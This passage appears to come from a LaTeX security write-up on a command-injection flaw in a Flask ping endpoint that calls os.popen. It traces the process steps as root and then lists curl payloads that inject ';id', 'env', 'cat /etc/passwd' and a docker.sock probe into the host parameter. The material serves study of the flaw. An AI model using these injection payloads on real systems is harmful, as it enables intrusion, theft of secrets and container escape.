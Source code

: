 \begin{enumerate}
    \item \texttt{os.popen("ping -c 3 8.8.8.8;id")} is called in the Flask process (PID X, UID 0).
    \item Python calls \texttt{pipe()} to create a read/write file descriptor pair.
    \item Python calls \texttt{fork()}: child process PID X+1 is created, inheriting UID 0.
    \item Child calls \texttt{dup2()} to redirect its stdout to the write end of the pipe.
    \item Child calls \texttt{execve("/bin/sh", ["-c", "ping -c 3 8.8.8.8;id"], environ)}.
    \item The shell parses the command string, identifies the \texttt{;} separator, and runs \texttt{ping}, then \texttt{id}.
    \item \texttt{id} produces \texttt{uid=0(root) gid=0(root) groups=0(root)} on stdout, which is written to the pipe.
    \item The parent process reads the pipe via \texttt{.read()}, receives the combined output, and the Flask response includes the \texttt{id} output.
\end{enumerate}

The root cause is unambiguous: \textbf{unsanitized user input is used as the content of a shell command string argument}.

\begin{lstlisting}
# Confirm command injection with id
curl "http://192.168.98.4:5000/ping?host=8.8.8.8%3Bid"
# Response contains: uid=0(root) gid=0(root)

# Enumerate environment variables
curl "http://192.168.98.4:5000/ping?host=8.8.8.8%3Benv"

# Read /etc/passwd
curl "http://192.168.98.4:5000/ping?host=8.8.8.8%3Bcat+/etc/passwd"

# Confirm docker.sock presence
curl "http://192.168.98.4:5000/ping?host=8.8.8.8%3Bls+-la+/var/run/docker.sock"
\end{lstlisting}

\section{Why \texttt{os.popen()} is Dangerous}

\subsection{\texttt{os.popen()} Internals}

